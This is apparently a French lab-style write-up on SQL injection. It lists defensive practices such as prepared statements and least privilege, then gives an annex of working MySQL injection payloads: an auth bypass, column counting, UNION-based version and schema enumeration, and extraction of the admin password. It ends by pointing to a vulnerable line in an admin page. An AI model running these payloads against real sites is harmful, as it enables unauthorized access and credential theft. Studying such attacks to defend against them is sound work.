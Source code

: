 L'injection SQL est une menace sérieuse pour la sécurité des applications web. Voici quelques bonnes pratiques pour protéger vos applications contre ce type d'attaques :

1. **Utiliser des requêtes préparées (paramétrées)** : Les requêtes préparées assurent que les entrées de l'utilisateur ne peuvent pas altérer la structure des requêtes SQL.
2. **Valider et nettoyer les entrées de l'utilisateur** : Assurez-vous que toutes les entrées de l'utilisateur sont correctement validées et nettoyées avant d'être utilisées dans des requêtes SQL.
3. **Limiter les privilèges de la base de données** : Utilisez des comptes de base de données avec des privilèges limités pour les opérations spécifiques, et évitez d'utiliser des comptes avec des droits d'administrateur pour des tâches régulières.
4. **Utiliser des outils de détection d'injections SQL** : Mettez en place des outils de détection et de prévention des intrusions pour identifier et bloquer les tentatives d'injection SQL.

# Annexe 1  :
```sql
Injection SQL :

' OR 1=1 #


Obtenir le nombre de colonnes :

' OR 1=1 order by x # (avec x=1,2,3, etc jusqu'à l'impossibilité de se connecter qui donnera le nbre de colonnes)


Obtenir la version de la base de données :

' OR 1=1 union select 0,@@version,2 order by id; #


Obtenir le nom des tables :

' OR 1=1 union select 0, group_concat(table_name),2 FROM information_schema.tables WHERE table_schema=database() order by 1; #


Obtenir le nom des colonnes de la table :

' OR 1=1 union select 0, group_concat(column_name),2 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="admin" order by 1; #


Obtenir le mot de passe de l'administrateur :

' OR 1=1 union select 0,motdepasse,2 FROM `admin` order by id; #

```

# Annnexe 2 - ligne vulnérable (site ==> admin==> index.php ==> ligne 13
